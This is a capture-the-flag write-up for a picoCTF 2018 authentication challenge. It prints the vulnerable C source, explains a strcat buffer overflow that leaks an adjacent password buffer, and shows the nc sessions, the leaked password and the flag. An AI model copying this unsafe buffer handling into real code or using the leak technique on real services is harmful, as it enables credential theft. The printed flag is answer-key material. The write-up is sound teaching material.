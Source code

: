 ## Question
>Can you authenticate to this [service](//2018shell.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth) and get the flag? Connect with `` nc 2018shell.picoctf.com 31045 ``. [Source](//2018shell.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth.c).

### Hint
>Are all the system calls being used safely?
>Some people can have reallllllly long names you know..

## Solution
Lets look at the source code for auth:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```
We can see that after loading the name string into `name` of size `256 bytes` the program replaces the newline terminator (`\n`) with a NULL terminator (`\x00`) and adds a `27 bytes` string to the end of `name`, so if we enter a `255 bytes` long string to `name` `strcat()` will store the rest of the bytes in `password` followed by a NULL terminator.
```c
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");
```
And since we don't have a NULL terminator inside of `name` anymore, printing `name` will result in printing until the next buffer - `password` which as a NULL terminator at its end because it was just loaded into `password`.
```c
  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);
```
BONUS: The password seperates with a comma (,) in the end of the output because we added the string `,\nPlease Enter the Password.` which starts with a comma to a `256 bytes` string containing `255 bytes` so the comma is left in place of the NULL terminator.
```bash
$ nc 2018shell.picoctf.com 31045
What is your name?
pxvqeweozozwuvmmbvoiuvbfsewllxjdaotrptqslqsdlncvoqhtlstuwpxzasccfwvfbvwhfvxdcxuebaxuppsivzuawqstnqypsxusuzoqupryvsyzuhmpenkcavlpceplzfmegfapbbnghwfdstyfdilemsryoznqzfzqfttphwoczeueqhxjfjhqthrnnbacoxgcxpyyzjyguifixnhhbdlpxiwxbfbgwlnbxshbjykvlbwlciqattakmqe
Hello pxvqeweozozwuvmmbvoiuvbfsewllxjdaotrptqslqsdlncvoqhtlstuwpxzasccfwvfbvwhfvxdcxuebaxuppsivzuawqstnqypsxusuzoqupryvsyzuhmpenkcavlpceplzfmegfapbbnghwfdstyfdilemsryoznqzfzqfttphwoczeueqhxjfjhqthrnnbacoxgcxpyyzjyguifixnhhbdlpxiwxbfbgwlnbxshbjykvlbwlciqattakmqe,a_reAllY_s3cuRe_p4s$word_d98e8d
```
Let's start a new connection and use the password we just leaked (`a_reAllY_s3cuRe_p4s$word_d98e8d`) inorder to get the flag!
```bash
$ nc 2018shell.picoctf.com 31045
What is your name?
Yuval
Hello Yuval,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_d98e8d
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
```

### Flag
`picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}`
